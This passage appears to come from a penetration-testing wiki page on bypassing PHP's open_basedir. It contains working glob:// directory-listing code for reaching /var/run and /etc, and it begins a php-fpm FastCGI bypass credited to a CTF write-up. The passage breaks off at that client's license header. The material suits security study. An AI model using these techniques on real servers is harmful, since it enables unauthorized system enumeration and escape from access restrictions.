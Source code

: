 In this first example the `glob://` protocol with some path bypass is used:

```php
<?php
$file_list = array();
$it = new DirectoryIterator("glob:///v??/run/*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
$it = new DirectoryIterator("glob:///v??/run/.*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
        echo "{$f}<br/>";
}
```

**Note1**: In the path you can also use `/e??/*` to list `/etc/*` and any other folder.  
**Note2**: It looks like part of the code is duplicated, but that's actually necessary!  
**Note3**: This example is only useful to list folders not to read files

### Full open\_basedir bypass abusing FastCGI

If **`php-fpm`** is configured you can abuse it to completely bypass **open\_basedir**:

![](../../../../.gitbook/assets/image%20%28380%29.png)

![](../../../../.gitbook/assets/image%20%28382%29.png)

Note that the first thing you need to do is find where is the **unix socket of php-fpm**. It use to be under `/var/run` so you can **use the previous code to list the directory and find it**.  
Code from [here](https://balsn.tw/ctf_writeup/20190323-0ctf_tctf2019quals/#wallbreaker-easy).

```php
<?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
 */
/**
 * Handles communication with a FastCGI application
 *
 * @author      Pierrick Charron <pierrick@webstart.fr>
 * @version     1.0
```